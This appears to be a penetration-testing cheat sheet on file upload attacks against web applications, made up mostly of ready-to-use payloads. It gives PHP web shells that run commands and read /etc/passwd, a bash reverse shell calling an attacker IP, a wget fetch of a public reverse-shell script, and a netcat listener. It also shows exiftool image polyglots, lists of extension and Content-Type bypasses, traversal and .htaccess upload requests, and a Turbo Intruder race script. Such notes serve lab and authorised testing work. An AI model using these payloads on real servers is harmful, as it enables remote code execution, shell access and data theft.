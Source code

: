 ```yaml
---
title: File Upload Attack
desc: 
tags: [Burp Suite, Exiftool, Netcat, Reverse Shell, Web]
alts: [OS-Command-Injection, Reverse-Shell]
render_with_liquid: false
---
```


## 1. Prepare a Payload

1. **Create a Web Shell**

    For example, the file name is "exploit.php".

    Simply showing the result of 'whoami'.

    ```php
    <?php echo system('whoami'); ?>
    ```

    This shows the content of "/etc/passwd".

    ```php
    <?php echo file_get_contents('/etc/passwd');  ?>
    ```

    Or you can use more useful payload with query parameter e.g. "/exploit.php?cmd=whoami"

    ```php
    <?php echo system($_GET['cmd']); ?>
    ```

2. **Create a Reverse Shell**

    ```php
    <?php shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1'"); ?>
    ```

    Or download the payload from GitHub.

    ```sh
    wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php

    # Edit some variables in the payload
    $ip = '<attacker-ip>'
    $port = 4444
    ```

    You need to open listener for getting a shell.

    ```sh
    nc -lvnp 4444
    ```

    After uploading it, reload the page in which the payload uploaded e.g. "/upload/shell.php".

3. **Create a Polyglot using Exiftool**

    It's assumed that you have an arbitrary image file.

    ```sh
    exiftool -Comment="<?php system('ls'); ?>" example.png
    exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' exploit.png
    exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" example.jpg -o polyglot.php
    ```

<br />

## 2. Bypass the File Validation Techniques when Uploading the Payload

Upload the payload in somewhere e.g. the profile picture's upload form.  
In most cases, you need to bypass the file validation.

1. **Bypass the File Extension Validation**

    If you cannot upload the payload with ".php", modify the extension.

    ```
    exploit.php
    exploit.php3
    exploit.php4
    exploit.php5
    exploit.phtml
    exploit.php.
    exploit.php.jpg
    exploit.php.png
    exploit%2Ephp
    exploit.p.phphp
    exploit.php%00.jpg
    exploit.php%0d%0a.jpg
    exploit.pHp
    exploit.gif.pHp
    exploit.jpg.php
    exploit.png.php
    ```

2. **Bypass Content-Type Validation**

    If you cannot upload with "Content-Type: application/x-php", try changing it to **"Content-Type: image/jpeg"**.

    ```
    POST /upload HTTP/1.1
    ...

    ------abcdefghijk
    Content-Disposition: form-data; name="avatar"; filename="exploit.php"
    Content-Type: image/jpeg

    <?php echo system($_GET['cmd']); ?>

    ------abcdefghijk
    ```

3. **Change the File Name to Directory Traversal**

    You may be able to edit the upload location by changing the **"filename"**.

    ```
    POST /upload HTTP/1.1
    ...

    ------abcdefghijk
    Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
    Content-Type: application/x-php

    <?php echo system($_GET['cmd']); ?>

    ------abcdefghijk
    ```

4. **Override the Server Configuration**

    You may be able to override the ".htaccess".

    ```
    POST /upload HTTP/1.1
    ...

    ------abcdefghijk
    Content-Disposition: form-data; name="avatar"; filename=".htaccess"
    Content-Type: text/plain

    AddType application/x-httpd-php .abc

    ------abcdefghijk
    ```

5. **Camouflage the Exploit as Image File**

    You may be able to bypass exif_imagetype() of PHP by editing the contents in the payload as image file.

    ```php
    // exploit.php

    GIF32a
    <?php echo system($_GET['cmd']); ?>
    ```

6. **Bypass the Filter (Client-Side & Server-Side)**

    If the target website uses filter JavaScript around file uploading, you may be able to bypass it by using Burp Suite.

    ```sh
    On Burp Suite, click "Proxy" tab and "Options".

    # Client-Side
    1. Navigate to "Intercept Client Requests" section, click on the top line ("File extension"...) then click "Edit".
    2. The popup will open.
    3. On the popup, find and remove the "|^js$" in the "Match condition", then save the filter.

    # Server-Side
    1. Navigate to "Intercept Server Requests" section and check "Intercept responses based on...".

    # ----------------------------------------------

    1. Turn the intercept on.
    2. On browser, press Ctrl+F5 (hard refresh) to reload the page.
    3. If you found the filtering file (.js), drop it.
    ```

7. **Race Conditions using Turbo Intruder**

    ```python
    def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=10,)

        request_post = '''POST /avatar/upload HTTP/1.1
    Host: vulnerable.com
    ...
    ...
    Connection: close

    ------abcdefghi
    Content-Disposition: form-data; name="avatar"; filename="exploit.php"
    Content-Type: application/x-php

    <?php echo file_get_contents('/etc/passwd');  ?>

    ------abcdefghijk--

    '''

        request_get = '''GET /files/avatars/exploit.php HTTP/1.1
    Host: vulnerable.com
    ...
    ...
    Connection: close


    '''

        engine.queue(request_post, gate='race1')
        for i in range(5):
            engine.queue(request_get, gate='race1')


        engine.openGate('race1')
        engine.complete(timeout=60)
        


    def handleResponse(req, interesting):
        table.add(req)
    ```

<br />

## 3. Other Tips

1. **Magic Numbers**

    ```sh
    # PNG
    89 50 4E 47 ...

    # JPEG
    FF D8 DD E0 ...

    # JPG
    FF D8 FF EE ...
    ```